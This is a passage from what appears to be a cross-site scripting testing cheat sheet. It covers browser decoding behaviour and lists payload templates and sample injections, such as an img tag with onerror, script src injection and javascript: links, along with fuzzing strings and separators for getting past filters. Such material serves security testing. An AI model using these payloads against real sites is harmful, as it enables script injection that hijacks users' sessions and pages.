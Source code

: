 AS instance, the following data:

```html
test%20test
test%5ctest
test%26%23test

ali$0anext+line
```

Will be turned into the following data:

```html
test test
test\test
test&#test

ali
next line
```

## Golden Tips

- Browsers **automatically HTML decode** the **HTML attributes**
- Browsers parse the Unicode in **JavaScript**
- Browsers **do not parse** HTML tags if they are **encoded**

Now, let’s begin with how to discover an XSS

## Outside Tag

Two possibilities

### Executable

The HTML tag is going to be parsed and executed. Tree payloads can be used:

```html
<{tag}{filler}{eventhander}{?filler}={?filler}{javascript}}{?filler}{>,//,Space,Tap,LF}
<sCript{filler}sRc{?filler}{url}{?filler}{>,//,tap,LF}
<A{filler}hRef{?filler}={?filler}javascript:javascriptCode{?filler}{>,//,Space,Tap,LF}

#<img src=x onerror=alert()> # each tag
#<script src=url></script>
#<a href=javascript:alert()>
```

Start manual fuzz

```html
<x{SP}xxx=
<x{SP}onxxx=
```

Some separators:

```html
{SPACE}
//
/
%0a
%0d
%09
%09%09
/~/
```
